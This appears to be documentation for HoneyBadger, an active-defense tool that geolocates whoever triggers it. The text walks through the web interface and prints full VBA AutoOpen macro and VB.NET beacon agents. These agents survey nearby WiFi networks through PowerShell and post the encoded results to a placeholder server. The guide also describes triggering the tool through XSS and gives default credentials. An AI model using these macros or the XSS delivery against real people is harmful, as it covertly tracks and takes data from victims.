HoneyBadger
=========================

Website
-------
<https://github.com/adhdproject/honeybadger>

Description
-----------
Used to identify the physical location of a web user with a combination
of geolocation techniques using a browser's share location feature, the
visible WiFi networks, and the IP address.

Updates
-------
What's new in HoneyBadger?

* Updated to Python 3.x
* API keys extracted as CLI arguments
* New fallback geolocation APIs added (IPStack, IPInfo.io)
* New utilities for automatic wireless surveying (Windows, Linux)
* New beacon agents (VB.NET, VBA)

Install Location
----------------
`/opt/honeybadger/`

Usage
-----
In order to use the latest version of HoneyBadger, Python 3 must be installed, as well as python3-pip. These should both be installed on the ADHD image.

`cd /opt/honeybadger/server`

Finally, from the same directory, run the HoneyBadger server:
`python3 honeybadger.py -ik <IPSTACK_KEY> -gk <GOOGLE_KEY>`

NOTE: Though HoneyBadger will still run without API keys, functionality is severely limited without them.

Example 1: Overview
-------------------
The HoneyBadger UI has many features. This section will give a brief overview of HoneyBadger's pages.

Please surf to http://<YOUR_LINUX_IP>:5000 

PLEASE USE FIREFOX!!!!

The user and password are adhd.

Navigate to the HoneyBadger server, and you will be presented with the following screen:

Use the credentials set earlier to log in, and you will be brought to the map.

To navigate to other pages of HoneyBadger, use the navigation bar in the top right corner:

### 1. Map ###
The map is the default landing page after logging in.

The map is the main event of HoneyBadger in terms of presentation, and will pin a location when a beacon is triggered.

### 2. Targets ###
Navigate to the targets page.

The targets page is where targets can be observed, added, or removed, The page also serves as a way to generate several agents that are not quickly generated manually.

### 3. Beacons ###
Navigate to the beacons page.

The beacons page maintains a list of beacons that connect to HoneyBadger and successfully geolocate. Beacons can be removed from this page as well.

### 4. Log ###
Navigate to the log page.



The log page is populated with information as beacons attempt to connect to the HoneyBadger server, and may be empty if accessed before any beacons connect to the server.

### 5. Profile ###
Navigate to the profile page.

The profile page allows for changing the password of the currently logged in account.

### 6. Admin ###
Navigate to the admin page.



The admin page is where administrative actions can be performed on accounts, and where new accounts can be added.

### 7. Logout ###
Clicking logout on the navbar will log you out, bringing you back to the login page.

NOTE: All pages containing a table of records can be sorted by clicking on the table headings.

Example 2: Using the Map
-----------------------------
Navigate to the map page.

At its core, the map page uses the Google Maps API, and functions identically to the standard Google Maps.

Several options are available for filtering map points by targets and by agents, using the map legend:

As targets are added or unique agents are used to beacon into a target, they will show up in this legend. Toggling checkboxes in the legend enables filtering of beacons that are displayed in the map.

Points on the map can be clicked to display information about the machine that beaconed in:

Example 3: Working with Targets
-------------------------------
Navigate to the targets page.

Take a closer look at the information associated with the demo target:

Moving left to right:

* id: list id number
* name: name of the target
* guid: unique id of the target
* beacon_count: number of beacons associated with the target
* action: available actions regarding the target
    - macro: generate a VBA macro beacon for the target
    - VB.NET: generate a VB.NET beacon for the target
    - demo: navigate to the target's demo page
    - delete: delete the target

Note that clicking on any of the first four table headings will sort the table based on that column in ascending or descending order, as indicated by an arrow that appears upon clicking.

To add a new target, enter the target name in the field at the top of the page, and click the add button.

The new target will appear in the list:



Two agents can be generated from this page, one for VBA Office macros and one for VB.NET.

Clicking on the macro button will show the macro in a popup:



Clicking on on the VB.NET button will show the VB.NET code in a popup:



NOTE: Though HoneyBadger attempts to copy the code to the clipboard, it's safest to simply copy the macro by hand.

To delete a target, click the target's delete button. A prompt will appear:



Click OK, and the target will be removed from the list.

Example 4: Working with Beacons
-------------------------------
Navigate to the beacons page.

Take a closer look at the information associated with the first demo beacon:



Moving left to right:

* id: list id number
* target: which target the beacon associated with
* agent: the agent that the beacon used to communicate with the server
* lat: geolocation latitude of the beacon
* lng: geolocation longitude of the beacon
* acc: geolocation accuracy of the beacon
* ip: IP address of the beacon
* created: timestamp of beacon creation
* action: available action regarding the target
    - delete: delete the beacon

Using an agent, beacon into HoneyBadger, and refresh the beacons page to see a new beacon added to the list:

To delete a beacon, click the beacon's delete button. A prompt will appear:



Click OK, and the beacon will be removed from the list

Example 5: Observing the Log
----------------------------
Navigate to the log page.



The log page has been populated with information after the beacon was added in Example 4. The log contains information pertaining to the beacon, and will contain information if a beacon is unable to geolocate.

Example 6: Changing Profile Information
---------------------------------------
Navigate to the profile page.

To change a password, fill in the fields accordingly. Note that passwords set with the profile page must meet minimum complexity requirements of a minimum of 10 characters, of which all four character classes (uppercase letters, lowercase letters, special characters, and numbers) must be used.

If the password does not meet minimum complexity requirements, the password is rejected and the user is notified:



Upon successful password change, the user is notified:



Example 7: Administration
-------------------------
Navigate to the admin page.

Note that modification of the current user is not allowed. If this is attempted, the user is notified of this:



To add a new user, enter an email address in the box above, and click initialize. The new user will appear in the list:



To get an activation link to the user, click the get link button. The link will be copied to the clipboard.

To delete a user, click the user's delete button. The following prompt will appear:

Click OK, and the user will be removed from the list:



Example 8: Agents
-----------------
### 1. Demo Page ###
Navigate to the targets page.

Click on the demo button to be taken to the demo page:

Enter some XSS code into the first field, and the current user's password into the second field, and click submit.

If the inputted XSS code worked, the following string of popups will appear.

Click on Share Location.

Click OK.

Click Allow Now.



Click Run.

Click Yes.

Click Yes.



After clicking through all of the prompts, the page will load. Reload the HoneyBadger beacons page to see that a new beacon is added:


### 2. VBA Macro ###
The VBA macro code are not included as comments in the generated popup for the sake of brevity. The VBA macro functionality is explained here. In short, the VBA macro imitates the powershell script.

    Sub AutoOpen()
        ' Create an instance of a WSH shell for system commands
        Set objWSH = CreateObject("WScript.Shell")

        ' Run the netsh command via powershell for automatic wireless survey
        wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
        
        ' Open a file handle to a temporary file and write netsh results to file
        Open Environ("temp") & "\wifidat.txt" For Output As #1
            Print #1, wifi
        Close #1
        
        ' Read contents in from temp file, fixing encoding issues with the web request
        wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll

        ' Remove the temporary file
        Kill Environ("temp") & "\wifidat.txt"

        ' Base64-encode the netsh data for sending.
        wifienc = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

        ' Create a web object
        Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

        ' Open the connection via POST request to the HoneyBadger server
        objHTTP.Open "POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VBA"

        ' Set request headers to make the server aware of the POST form data
        objHTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"

        ' Send the properly formatted POST form to the server
        objHTTP.Send "os=windows&data=" & wifienc
    End Sub

To use the macro code, simply open a document, paste this macro inside, and save as a .docm file. Upon opening and accepting to run code, the macro will be triggered and the beacon will be added.

### 3. VB.NET Script ###
The VB.NET code is identical in function and near identical in structure to the VBA macro. Changes needed to be made to make it a valid VB.NET script, for version difference issues between VB.NET and VBA. Like the macro, the VB.NET functionality is explained here:

    Imports System.IO
    
    Module HoneyBadgerBeacon
        Sub Main()
            ' Create and initialize a new WSH shell object
            Dim objWSH As New Object
            objWSH = CreateObject("WScript.Shell")

            ' Create and initialize the wifi data variable
            Dim wifi As String
            wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
            
            ' Create a temp file
            Dim objWriter As New System.IO.StreamWriter(Environ("temp") & "\wifidat.txt")
            
            ' Write data to file
            objWriter.Write(wifi)

            ' Close file
            objWriter.Close(0)
            
            ' Read in the temp file contents with proper encoding
            wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll
            
            ' Delete temp file
            Kill(Environ("temp") & "\wifidat.txt")

            ' Base64-encode data
            wifi = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF88.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

            ' Create new web object
            Dim objHTTP As New Object
            objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

            ' Open POST request to server
            objHTTP.Open("POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VB")

            ' Set request headers to notify server of POST form data
            objHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            ' Send the formatted data to the server
            objHTTP.Send("os=windows&data=" & wifi)
        End Sub
    End Module

Copy this script into a file with a .vb extension, and run vbc <FILENAME>.vb to compile, and then run <FILENAME>.exe to create the beacon.

### 4. HTML ###
To use a beacon with the HTML agent, go to the targets page and copy the GUID of the desired target, and create a URL formatted like so:
`http://<SERVER>:5000/api/beacon/<GUID>/HTML?lat=<LAT>&lng=<LNG>&acc=<ACC>`

Navigate to this page in a browser. The server will return a 404

### 5. CMD ###
The CMD agent is a type of HTML agent, as the beacon is created via web requests on the command line. There are two utilities in the util directory of HoneyBadger, one for windows and one for linux. They utilize Google's geolocation API. Usage information is available in those scripts. 
